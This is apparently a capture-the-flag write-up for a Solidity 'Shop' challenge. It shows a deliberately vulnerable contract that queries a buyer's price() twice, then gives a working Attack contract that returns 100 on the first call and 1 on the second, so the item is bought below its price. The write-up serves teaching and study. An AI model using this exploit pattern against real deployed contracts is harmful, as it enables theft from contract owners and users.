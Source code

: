 Objective:
Buy the item from the Shop contract for less than 100.

<details>
<summary>See the original contract</summary>
    
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;
    function buy() public {
        Buyer _buyer = Buyer(msg.sender);
        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
</details>

Expalanation:
```
if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
```
If we check this if condition we clearly see that the price funtion is called twice, so what we can do is that during the first call we can return 100 and during the second call we can return a lesser value and this we can check with the isSold function that we make in our helper contract.

Solution:
Below is the helper contract.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Shop {
    function buy() external;
    function isSold() external view returns (bool);

}

contract Attack {
    Shop shop;
   constructor (address _target) {
    shop = Shop(_target);
   }
   function price() external view returns (uint256) {
        return shop.isSold() ? 1 : 100;
    }

    function attack() external {
        shop.buy();
    }
}
```
After deploying this helper contract call the attack function after which the level will be cleared.

Key Takeaways:
The contract thinks that the price() will be constant but as it is called twice we switch its behaviour between the calls.
